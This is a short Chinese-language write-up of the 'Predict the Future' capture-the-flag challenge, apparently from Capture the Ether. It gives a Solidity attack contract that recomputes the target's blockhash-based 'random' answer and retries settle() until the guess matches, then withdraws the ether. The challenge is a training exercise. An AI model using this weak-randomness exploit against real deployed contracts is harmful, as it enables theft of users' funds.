     攻击合约的代码如下：

```
pragma solidity ^0.4.21;

contract PredictTheFutureChallenge {
...
}

contract exploit{
    uint8 guess;
    address addr_predContract;

    function callLockInGuess(uint8 n,address addr) payable {
        guess = n;
        addr_predContract = addr;
        PredictTheFutureChallenge predContract = PredictTheFutureChallenge(addr_predContract);
        predContract.lockInGuess.value(1 ether)(guess);
    }

    function attacker(){
        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        require(answer == guess);

        PredictTheFutureChallenge predContract = PredictTheFutureChallenge(addr_predContract);
        predContract.settle();
    }

    function withdraw() payable{
        msg.sender.transfer(this.balance);
    }

    function () payable {

    }
}
```

执行流程：

1.  首先执行 `callLockInGuess(uint8 n,address addr)`

    n随便填一个0-9的数，addr是挑战的地址。
2. 多点几次`attacker()`，不管警告。多半会返回transaction fail，直到transaction success为止。当然也可以写个脚本发送请求，但是由于爆破的范围很小，手动点几下基本都可以碰撞成功。

注意：在remix上执行的时候，一般情况都会出现`revert error`

> `Gas estimation failed:execution reverted`。

也可能没有错误提示，直接可以执行。

不管有没有出现错误提示，直接执行即可。出现错误提示仅仅意味着，在以太坊节点模拟执行的时候会出错，这是因为根据模拟执行的最新区块号算出的answer不正确。不出现错误也仅仅意味着根据模拟执行的最新区块号算出的answer正确。只有根据实际执行的最新区块号算出的answer正确才行，所以直接一直执行就可以了。
